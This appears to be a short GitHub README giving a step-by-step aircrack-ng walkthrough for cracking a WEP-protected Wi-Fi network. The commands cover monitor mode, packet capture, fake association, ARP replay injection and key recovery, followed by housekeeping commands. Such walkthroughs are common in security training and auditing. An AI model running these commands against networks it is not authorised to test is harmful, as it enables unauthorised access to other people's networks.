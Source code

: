 # Cracking WEP Protocol

## Execution

The wireless network to attack should have mutiple devices connected to it. This will help to speed up the ARP broadcast inject attempts.

``` bash
# Listing your wireless network adapters
iwconfig

# Setting your wireless network adapter to monitor mode
airmon-ng start wlan1

# Monitoring the network
airodump-ng wlan1mon
# Take note of the bssid and the channel
# 90:61:0C:31:01:63

# Capturing packets
airodump-ng --bssid 90:61:0C:31:01:63 -c 11 -w wep_crack wlan1mon

# Associate your network adapter with the monitored network
aireplay-ng -1 0 -a 90:61:0C:31:01:63 wlan1mon

# Inject ARP traffic
# Immediate reconnect the other connected devices
aireplay-ng -3 -b 90:61:0C:31:01:63 -h 28:16:A8:6B:D9:8F wlan1mon
# Look at the data column, collect around 150000 data packets.

# Crack the password!
aircrack-ng wep_crack-01.cap


# Housekeeping
airmon-ng stop wlan1mon
service networking restart
service network-manager restart
```

<img src="aircrack-ng_results.png" width="600"/>


## References
1. https://www.yeahhub.com/wep-cracking-kali-linux-2018-1-tutorial/
2. https://www.linkedin.com/pulse/how-crack-wep-wifi-passwords-using-kali-linux-sai-bhasker-raju/ 